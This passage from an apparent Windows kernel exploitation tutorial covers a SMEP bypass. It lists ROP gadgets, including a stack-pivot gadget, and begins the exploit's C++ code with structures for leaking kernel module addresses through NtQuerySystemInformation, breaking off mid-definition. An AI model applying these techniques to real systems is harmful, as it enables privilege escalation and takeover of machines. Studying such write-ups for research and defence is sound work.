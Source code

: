```asm
...
0x140007dfa: nop ; ret ; (40 found)
...
0x140522840: mov esp, 0xE8000000 ; ret ; (1 found)
...
```

[NOPs]

![](imgs/blog/2SmepBypass/20250330175106.png)

[stack pivoting]

![](imgs/blog/2SmepBypass/20250330175427.png)

Then we implement it in our code:
```cpp
#include <stdio.h>
#include <windows.h>

#define MAXIMUM_FILENAME_LENGTH 255 

typedef struct SYSTEM_MODULE {
	ULONG                Reserved1;
	ULONG                Reserved2;
#ifdef _WIN64
	ULONG				Reserved3;
#endif
	PVOID                ImageBaseAddress;
	ULONG                ImageSize;
	ULONG                Flags;
	WORD                 Id;
	WORD                 Rank;
	WORD                 w018;
	WORD                 NameOffset;
	CHAR                 Name[MAXIMUM_FILENAME_LENGTH];
}SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
	ULONG                ModulesCount;
	SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
	SystemModuleInformation = 11
} SYSTEM_INFORMATION_CLASS;

typedef NTSTATUS(*_NtQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID                    SystemInformation,
	ULONG                    SystemInformationLength,
	PULONG                   ReturnLength
```